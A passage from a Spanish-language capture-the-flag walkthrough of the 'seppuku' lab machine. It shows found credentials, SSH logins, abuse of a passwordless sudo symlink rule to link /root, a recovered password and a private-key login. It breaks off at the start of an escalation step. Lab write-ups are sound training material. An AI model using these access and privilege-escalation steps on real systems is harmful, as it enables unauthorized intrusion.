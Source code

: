 ```
Credentials:

User = seppuku

Password = eeyoree
```

Y con esto entrariamos por ssh..

```shell
ssh seppuku@<IP>
```

Si haces `sudo -l` veras lo siguiente...

```
Matching Defaults entries for seppuku on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seppuku may run the following commands on seppuku:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```

Yo en mi caso al ver eso hice lo siguiente, lo cual mas adelante no me sirve de mucho pero si para escalar de otras formas...

```shell
sudo ln -sf /root/ /tmp/
```

Con eso creas un enlace directo a la carpeta entera de `root`

Despues si en la misma `home` leemos un archivo llamado `.passwd` pondria lo siguiente...

```
12345685213456!@!@A
```

Esa es una contraseña del usuario `samurai` y para entrar al usuario `tanto` se tiene que utilizar la `id_rsa` que encontramos anteriormente...

> Tanto

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa tanto@<IP>
```

Y ya estariamos dentro de `tanto` dentro de este usuario crearemos las siguientes carpetas y archivos para luego ejecutarlos con `samurai`...

```shell
mkdir .cgi_bin
```

Dentro de la misma...
